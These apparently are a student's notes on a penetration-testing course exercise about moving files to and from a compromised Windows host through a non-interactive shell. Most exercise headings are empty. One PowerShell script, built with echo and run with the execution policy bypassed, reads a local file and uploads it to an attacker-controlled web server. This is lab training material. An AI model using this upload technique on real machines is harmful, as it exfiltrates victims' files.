


### 16.2.5.1 Exercises
#### 1. Use VBScript to transfer files in a non-interactive shell from Kali to Windows.


#### 2. Use PowerShell to transfer files in a non-interactive shell from Kali to Windows and vice versa.


#### 3. For PowerShell version 3 and above, which is present by default on Windows 8.1 and Windows 10, the cmdlet Invoke-WebRequest was added. Try to make use of it in order to perform both upload and download requests to your Kali machine.

Check out this post:  https://forums.offensive-security.com/showthread.php?29753-exercise-16-2-5-1-Invoke-WebRequest-Upload&highlight=invoke-webrequest

```powershell
===================
what worked for me
===================

echo $filename = "hello.txt" > upload.ps1
echo $uri = "http://192.168.xxx.xxx/upload.php" >> upload.ps1
echo $currentpath = convert-path . >> upload.ps1
echo $filepath = "$currentpath\$filename" >> upload.ps1
echo $filebin = [System.IO.File]::ReadAllText($filepath) >> upload.ps1
echo $boundary = [System.Guid]::NewGuid().ToString() >> upload.ps1
echo $LF = "`r`n" >> upload.ps1
echo $bodylines = ("--$boundary", "Content-Disposition: form-data; name=`"file`"; filename=`"$filename`"", "Content-Type: application/octet-stream$LF", $filebin, "--$boundary--$LF") -join $LF >> upload.ps1
echo invoke-webrequest -uri $uri -method post -contenttype "multipart/form-data; boundary=`"$boundary`"" -body $bodylines -usebasicparsing >> upload.ps1

powershell -executionpolicy bypass -nologo -noninteractive -noprofile -file upload.ps1 
```


#### 4. Use TFTP to transfer files from a non-interactive shell from Kali to Windows. Note: If you encounter problems, first attempt the transfer process within an interactive shell and watch for issues that may cause problems in a non-interactive shell. 

It was necessary to allow the tftp client on Windows through the Firewall because Kali responds back to the write request on a high port and Windows was blocking that response and stopping the transfer.

- Started the daemon on Linux:
  
- Used non-interactive shell to initiate tftp transfer:
  

